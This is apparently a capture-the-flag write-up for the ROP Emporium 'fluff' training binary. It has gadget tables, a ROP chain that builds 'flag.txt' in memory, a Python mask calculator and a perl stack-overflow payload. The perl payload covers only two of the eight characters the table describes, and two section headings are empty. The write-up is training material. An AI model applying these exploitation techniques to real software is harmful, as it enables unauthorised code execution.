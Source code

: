 # fluff
The challenge is available [here](https://ropemporium.com/challenge/fluff.html).

## Black-Box Test

## In-depth research

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                                      |
|---------------|-----------------|------------|----------------------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                                              |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed.                |
| pop_bswap_cx        | Gadget          | 0x08048558 | pop ecx;<br />bswap ecx;<br />ret;                                                         |
| pop_bp        | Gadget          | 0x080485bb | pop ebp;<br />ret;                                                                    |
| prepare_dx       | Gadget          | 0x08048543 | mov eax, ebx;<br />mov ebx, 0xb0bababa;<br />pext edx, ebx, eax;<br />mov eax, 0xdeadbeef; ret; |
| exchange_byte | Gadget          | 0x08048555 | xchg BYTE PTR [ecx], dl;<br />ret;                                                    |

And the next table describes the ROP chain itself:

| No | Chain Link                          | Note                                                                                                                                                                                                                                                                                |
|----|-------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                    |                                                                                                                                                                                                                                                                                     |
| 2  | pop_bswap_cx, `memory4string`       | `memory4string` in big-endian.                                                                                                                                                                                                                                                      |
| 3  | pop_bp, get_mask(`"f"`)             | The function `get_mask` calculates the bit sequence needed<br/>for a register that serves as a mask in the `xchg` instruction<br/>(with a constant value of `0xdeadbeef` on which the mask operates)<br/>so that the operation produces the desired character. In this case, `"f"`. |
| 4  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 5  | exchange_byte                       | After this operation, the string will be `"f"`                                                                                                                                                                                                                                      |
| 6  | pop_bswap_cx, `memory4string+1`     | `memory4string+1` in big-endian.                                                                                                                                                                                                                                                    |
| 7  | pop_bp, get_mask(`"l"`)             |                                                                                                                                                                                                                                                                                     |
| 8  | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 9  | exchange_byte                       | After this operation, the string will be `"fl"`                                                                                                                                                                                                                                     |
| 10 | pop_bswap_cx, `memory4string+2`     | `memory4string+2` in big-endian.                                                                                                                                                                                                                                                    |
| 11 | pop_bp, get_mask(`"a"`)             |                                                                                                                                                                                                                                                                                     |
| 12 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 13 | exchange_byte                       | After this operation, the string will be `"fla"`                                                                                                                                                                                                                                    |
| 14 | pop_bswap_cx, `memory4string+3`     | `memory4string+3` in big-endian.                                                                                                                                                                                                                                                    |
| 15 | pop_bp, get_mask(`"g"`)             |                                                                                                                                                                                                                                                                                     |
| 16 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 17 | exchange_byte                       | After this operation, the string will be `"flag"`                                                                                                                                                                                                                                   |
| 18 | pop_bswap_cx, `memory4string+4`     | `memory4string+4` in big-endian.                                                                                                                                                                                                                                                    |
| 19 | pop_bp, get_mask(`"."`)             |                                                                                                                                                                                                                                                                                     |
| 20 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 21 | exchange_byte                       | After this operation, the string will be `"flag."`                                                                                                                                                                                                                                  |
| 22 | pop_bswap_cx, `memory4string+5`     | `memory4string+5` in big-endian.                                                                                                                                                                                                                                                    |
| 23 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 24 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 25 | exchange_byte                       | After this operation, the string will be `"flag.t"`                                                                                                                                                                                                                                 |
| 26 | pop_bswap_cx, `memory4string+6`     | `memory4string+6` in big-endian.                                                                                                                                                                                                                                                    |
| 27 | pop_bp, get_mask(`"x"`)             |                                                                                                                                                                                                                                                                                     |
| 28 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 29 | exchange_byte                       | After this operation, the string will be `"flag.tx"`                                                                                                                                                                                                                                |
| 30 | pop_bswap_cx, `memory4string+7`     | `memory4string+7` in big-endian.                                                                                                                                                                                                                                                    |
| 31 | pop_bp, get_mask(`"t"`)             |                                                                                                                                                                                                                                                                                     |
| 32 | prepare_dx                          |                                                                                                                                                                                                                                                                                     |
| 33 | exchange_byte                       | After this operation, the string will be `"flag.txt"`                                                                                                                                                                                                                               |
| 34 | print_file, `"XXXX"`, memory4string |                                                                                                                                                                                                                                                                                     |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!



```python
def get_mask(target, value):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]

    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits

        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    mask = int(mask_bits, 2)
    return mask

for c in "flag.txt":
    print(hex(get_mask(c, 0xb0bababa)), c)
```

```
perl -e 'print "X"x44 . "\xbb\x85\x04\x08" . "\x4b\x4b\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x18" . "\x55\x85\x04\x08" ."\xbb\x85\x04\x08" . "\xdd\x46\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x19" . "\x55\x85\x04\x08". "\xd0\x83\x04\x08" . "XXXX" . "\x18\xa0\x04\x08"' | ./fluff32
```